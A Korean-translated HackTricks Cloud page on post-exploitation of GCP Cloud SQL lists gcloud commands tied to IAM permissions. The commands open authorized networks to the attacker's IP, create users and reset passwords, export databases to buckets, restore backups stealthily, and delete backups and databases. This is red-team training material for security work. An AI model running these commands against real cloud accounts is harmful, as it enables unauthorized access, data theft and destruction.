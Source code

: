 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

데이터베이스에 연결하려면 **데이터베이스 포트에 대한 접근 권한**과 **사용자 이름** 및 **비밀번호**를 알아야 하며, IAM 요구 사항은 없습니다. 따라서 데이터베이스에 공용 IP 주소가 있다고 가정할 때 접근하는 쉬운 방법은 허용된 네트워크를 업데이트하고 **자신의 IP 주소가 접근할 수 있도록 허용하는 것입니다**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**를 사용하여 데이터베이스의 **백업을 중단**하는 것도 가능합니다.

이것이 요구 사항이기 때문에 **`cloudsql.instances.connect`** 및 **`cloudsql.instances.login`**의 권한이 무엇인지 확실하지 않습니다. 아는 분은 PR을 보내주세요!

### `cloudsql.users.list`

데이터베이스의 **모든 사용자 목록**을 가져옵니다:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

이 권한은 **데이터베이스 내에 새로운 사용자를 생성**할 수 있게 해줍니다:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

이 권한은 **데이터베이스 내의 사용자 업데이트**를 허용합니다. 예를 들어, 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

백업에는 **오래된 민감한 정보**가 포함될 수 있으므로 확인하는 것이 흥미롭습니다.\
**데이터베이스 내에서 백업 복원**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
더 은밀하게 수행하기 위해 현재 실행 중인 데이터베이스 대신 새 SQL 인스턴스를 생성하고 그곳에서 데이터를 복구하는 것이 권장됩니다.

### `cloudsql.backupRuns.delete`

이 권한은 백업을 삭제할 수 있습니다:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**데이터베이스를** Cloud Storage Bucket에 내보내어 거기서 접근할 수 있도록 합니다:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage 버킷에서 데이터베이스 가져오기** (덮어쓰기):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db 인스턴스에서 데이터베이스를 삭제합니다:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.

</details>
{% endhint %}
